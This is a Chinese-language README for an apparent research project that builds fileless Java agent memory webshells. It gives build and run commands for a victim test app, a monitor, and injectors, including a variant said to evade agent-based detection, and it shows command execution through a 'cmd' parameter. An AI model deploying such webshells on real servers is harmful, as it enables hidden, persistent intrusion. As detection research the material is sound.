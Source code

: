# crack java agent

不落地文件，不借助 `VM.attach` 而实现的 `Agent` 型内存马。


## app

测试应用，模拟受害者的 java 应用：

```bash
cd app
mvn clean package
java -cp target/app-1.0-SNAPSHOT.jar com.rzte.agentcrack.App
```

## javaagent-monitor

敏感类监控，模拟防护软件，与测试应用 `app` 配合测试。

```bash
export workdir=`pwd`
cd javaagent-monitor
mvn clean package

# 1. 防守模式运行目标应用
java -javaagent:${workdir}/javaagent-monitor/target/javaagent-monitor-1.0-SNAPSHOT-jar-with-dependencies.jar -cp ${workdir}/app/target/app-1.0-SNAPSHOT.jar com.rzte.agentcrack.App

# 2. 临时检测模式
java -jar ./target/javaagent-monitor-1.0-SNAPSHOT-jar-with-dependencies.jar <app_pid>

# 若找不到 VirtualMachine 可手动指定 tools.jar
java -Xbootclasspath/a:${JAVA_HOME}/lib/tools.jar -jar ./target/javaagent-monitor-1.0-SNAPSHOT-jar-with-dependencies.jar <app_pid>
```

## javaagent-hack

简单的攻击示意，与测试应用 `app` 配合测试。

```bash
cd javaagent-hack
mvn clean package


java -jar javaagent.jar <target_pid> redefine/retransform
```

## memshell-demo

内存马示意，与测试应用 `app` 配合测试。

- `NoAgent`
    简单的，不落地文件，借助已有的 agent 实施攻击
- `AgentA`
    不借助 agent，不落地文件，创建新的 agent 后实施攻击。目前仅适配了 `jdk8`。
- `AgentB`
    基于 `AgentA`，但所使用的类，不再需要实现 `ClassFileTransformer`，也无需使用 `ClassFileTransformer.transform` 方法。
- `AgentX`
    基于 `AgentB`，但是不再会被 `java agent` 技术所检测到或是清除掉

可在编译后，直接在 `App` 运行时，加载对应的“攻击类”：

```shell
java -cp ${workdir}/app/target/app-1.0-SNAPSHOT.jar:${workdir}/memshell-demo/ com.rzte.agentcrack.App  AgentX
```

## memshell

根据 `memshell-demo` 而实现的，相对“实际”的 `jsp` 内存马。由于 `jsp` 中修改类字节码比较复杂，这里借助下面的 `memshell-server` 来修改 。

## memshell-server

与 `memshell` 配合，负责初始化内存马。

```bash
java -cp ${workdir}/memshell-server/target/memshell-server-1.0-SNAPSHOT-jar-with-dependencies.jar com.rzte.agentcrack.App
Usage: java -cp memshell-server.jar com.rzte.agentcrack.App <target_url>

Example:

java -cp ${workdir}/memshell-server/target/memshell-server-1.0-SNAPSHOT-jar-with-dependencies.jar com.rzte.agentcrack.App http://127.0.0.1:8080/demo/NoAgent.jsp
```

之后，便可以通过 `cmd` 参数向任意路径发送命令:

![memshell-ls](pic/memshell-ls.png)

![memshell-whoami](pic/memshell-whoami.png)
